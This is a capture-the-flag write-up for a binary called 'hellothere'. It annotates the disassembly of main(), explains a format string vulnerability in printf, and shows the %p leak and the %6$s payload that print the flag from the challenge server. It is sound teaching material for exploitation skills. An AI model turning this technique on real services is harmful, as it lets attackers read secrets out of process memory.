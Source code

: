 For this challenge, we are presented with a single binary named "hellothere". When we run it, we are prompted to enter a name and upon doing so are greeted and then asked to enter a name again. The process repeats in a loop.

```
$ ./hellothere 
What is your name?
name

Hello there, name

What is your name?
```

Here's the disassembly of the main() function.

```asm
┌ 196: int main (int argc, char **argv, char **envp);
│           ; var int64_t var_60h @ rbp-0x60
│           ; var file*stream @ rbp-0x58
│           ; var char *format @ rbp-0x50
│           ; var char *s @ rbp-0x30
│           ; var int64_t var_8h @ rbp-0x8
│           0x000011d8      55             push rbp
│           0x000011d9      4889e5         mov rbp, rsp
│           0x000011dc      4883ec60       sub rsp, 0x60
│           0x000011e0      64488b042528.  mov rax, qword fs:[0x28]
│           0x000011e9      488945f8       mov qword [var_8h], rax
│           0x000011ed      31c0           xor eax, eax
│           0x000011ef      488d45d0       lea rax, [s]
│           0x000011f3      488945a0       mov qword [var_60h], rax
│           0x000011f7      b800000000     mov eax, 0
│           0x000011fc      e894ffffff     call sym.buffer_init
│           0x00001201      488d35000e00.  lea rsi, [0x00002008]       ; "r" ; const char *mode
│           0x00001208      488d3dfb0d00.  lea rdi, str.._flag.txt     ; 0x200a ; "./flag.txt" ; const char *filename
│           0x0000120f      e86cfeffff     call sym.imp.fopen          ; file*fopen(const char *filename, const char *mode)
│           0x00001214      488945a8       mov qword [stream], rax
│           0x00001218      48837da800     cmp qword [stream], 0
│       ┌─< 0x0000121d      7516           jne 0x1235
│       │   0x0000121f      488d3df20d00.  lea rdi, str.The_flag_file_isnt_loading._Please_contact_an_organiser_if_you_are_running_this_on_the_shell_server. ; 0x2018 ; "The flag file isn't loading. Please contact an organiser if you are running this on the shell server." ; const char *s
│       │   0x00001226      e815feffff     call sym.imp.puts           ; int puts(const char *s)
│       │   0x0000122b      bf00000000     mov edi, 0                  ; int status
│       │   0x00001230      e85bfeffff     call sym.imp.exit           ; void exit(int status)
│       │   ; CODE XREF from main @ 0x121d
│       └─> 0x00001235      488b55a8       mov rdx, qword [stream]     ; FILE *stream
│           0x00001239      488d45d0       lea rax, [s]
│           0x0000123d      be20000000     mov esi, 0x20               ; "@" ; int size
│           0x00001242      4889c7         mov rdi, rax                ; char *s
│           0x00001245      e826feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│           ; CODE XREF from main @ 0x129a
│       ┌─> 0x0000124a      488d3d2d0e00.  lea rdi, str.What_is_your_name_ ; 0x207e ; "What is your name?" ; const char *s
│       ╎   0x00001251      e8eafdffff     call sym.imp.puts           ; int puts(const char *s)
│       ╎   0x00001256      488b15132e00.  mov rdx, qword [obj.stdin]  ; obj.stdin_GLIBC_2.2.5
│       ╎                                                              ; [0x4070:8]=0 ; FILE *stream
│       ╎   0x0000125d      488d45b0       lea rax, [format]
│       ╎   0x00001261      be20000000     mov esi, 0x20               ; "@" ; int size
│       ╎   0x00001266      4889c7         mov rdi, rax                ; char *s
│       ╎   0x00001269      e802feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│       ╎   0x0000126e      488d3d1c0e00.  lea rdi, str._nHello_there__ ; 0x2091 ; "\nHello there, " ; const char *format
│       ╎   0x00001275      b800000000     mov eax, 0
│       ╎   0x0000127a      e8e1fdffff     call sym.imp.printf         ; int printf(const char *format)
│       ╎   0x0000127f      488d45b0       lea rax, [format]
│       ╎   0x00001283      4889c7         mov rdi, rax                ; const char *format
│       ╎   0x00001286      b800000000     mov eax, 0
│       ╎   0x0000128b      e8d0fdffff     call sym.imp.printf         ; int printf(const char *format)
│       ╎   0x00001290      bf0a000000     mov edi, 0xa                ; int c
│       ╎   0x00001295      e896fdffff     call sym.imp.putchar        ; int putchar(int c)
└       └─< 0x0000129a      ebae           jmp 0x124a

```

In the prologue we can see that it's making 96 bytes (0x60) of space on the stack and then storing a canary value at the end of that space, although this value is not used because main doesn't return. Next it stores a pointer to another buffer starting at rbp-0x30 into the reserved space. Next it calls a buffer_init() function which disables buffering on standard input, standard output, and standard error which is commonly done in these types of problems. Next it attempts to open a file (./flag.txt) and reads it into a buffer on the stack which starts at 48 bytes (0x30) into the reserved space. If the file can't be opened, it prints an error message and calls exit().

After reading the flag into the buffer, it prompts the user to enter a name and reads up to 32 bytes (0x20) of user input into a stack buffer starting at rbp-0x50. It then prints the greeting by calling printf() twice, first with a static string containing "\nHello there, " and second with the address of the buffer the user input was read into. It then calls putchar() to send a newline character.

Because the first argument to printf() is the "format string", passing unsanitized user input as the first argument to printf() can result in a format string vulnerability. In this case, we can use this vulnerability to leak the contents of the buffer which the flag file's contents were written into.

In order to do this, we need to know which numbered parameter holds the pointer to that buffer. One way to figure this out is to just send a bunch of "%p" format strings to leak pointers and use a debugger to figure out which one we're looking for. If we do that here, we get the following output:

```
What is your name?
%p %p %p %p %p %p %p %p %p %p

Hello there, 0x7fffffffb830 (nil) (nil) 0x7fffffffdec0 0xe 0x7fffffffdee0 0x5555555592a0 0x7025207025207025 0x2520702520702520 0x2070252070252070
```

If we set a breakpoint at main+184 so that we pause execution following the printf() call which is leaking data and inspect stack contents, we see the following:

```
00:0000│ rsp 0x7fffffffdeb0 —▸ 0x7fffffffdee0 ◂— 'flag{placeholder}\n'
01:0008│     0x7fffffffdeb8 —▸ 0x5555555592a0 ◂— 0xfbad2488
02:0010│     0x7fffffffdec0 ◂— '%p %p %p %p %p %p %p %p %p %p\n'
03:0018│     0x7fffffffdec8 ◂— ' %p %p %p %p %p %p %p\n'
04:0020│     0x7fffffffded0 ◂— 'p %p %p %p %p\n'
```

In this case, I created a "placeholder" flag so that I could develop and test the exploit locally. We can see that the flag file contents were read into a buffer at 0x7fffffffdee0. If we count from the first pointer leak, until we find that address, we can see that it's positional parameter six. We can leak the sixth positional parameter by sending a format string of %6$s.

Here's the output when run against the challenge server:

```
$ python hellothere.py REMOTE
[+] Opening connection to pwn-2021.duc.tf on port 31918: Done
[*] Switching to interactive mode

Hello there, DUCTF{f0rm4t_5p3c1f13r_m3dsg!}

What is your name?
```

